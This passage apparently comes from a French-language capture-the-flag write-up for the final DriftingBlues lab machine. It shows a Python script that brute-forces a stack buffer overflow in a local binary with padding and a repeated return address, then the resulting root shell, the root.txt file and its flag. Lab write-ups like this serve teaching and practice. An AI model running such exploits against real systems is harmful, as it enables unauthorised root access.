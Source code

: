 ```python
import os 
import sys 

padding = int(sys.argv[1]) 

while True: 
        os.system("./input " + 'a'*padding + '\x21\x95\xa6\xbf'*44)
```

Avec un padding de 3 caractères (pour que l'adresse de retour s'aligne avec la pile) j'obtiens un shell après un moment :  

```plain
clapton@debian:~$ python brute.py 3
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
--- snip ---
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
# id 
uid=0(root) gid=1000(clapton) groups=1000(clapton) 
# cd /root 
# ls 
root.txt 
# cat root.txt 

this is the final of driftingblues series. i hope you've learned something from them. 

you can always contact me at vault13_escape_service[at]outlook.com for your questions. (mail language: english/turkish) 

your root flag: 

04D4C1BEC659F1AA15B7AE731CEEDD65 

good luck. ( ͡° ͜ʖ ͡°)
```

Sympa

*Published January 21 2022 at 12:05*
